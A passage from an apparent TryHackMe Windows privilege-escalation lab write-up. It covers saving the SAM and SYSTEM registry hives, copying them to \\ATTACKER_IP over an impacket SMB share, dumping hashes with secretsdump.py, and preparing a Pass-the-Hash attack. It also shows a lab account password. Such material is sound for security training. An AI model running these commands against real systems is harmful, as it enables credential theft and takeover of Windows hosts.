 To backup the SAM and SYSTEM hashes, we can use the following commands:

`reg save hklm\system C:\Users\THMBackup\system.hive`

`reg save hklm\sam C:\Users\THMBackup\sam.hive`

This will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using SMB or any other available method. For SMB, we can use [impacket's](https://github.com/fortra/impacket) `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox:

`user@attackerpc$ mkdir share`

`user@attackerpc$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share`

This will create a share named `public` pointing to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command in our windows machine to transfer both files to our AttackBox: 

`C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\`

`C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\`

And use impacket to retrieve the users' password hashes:

`python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL`

### 12.PNG

![App Screenshot](https://github.com/rohit00712/Jr-Penetration-Tester/blob/main/Privilege%20Escalation/Windows%20Privilege%20Escalation/images/12.PNG)

We can finally use the Administrator's hash to perform a Pass-the-Hash attack and gain access to the target machine with SYSTEM privileges:

### 13.PNG
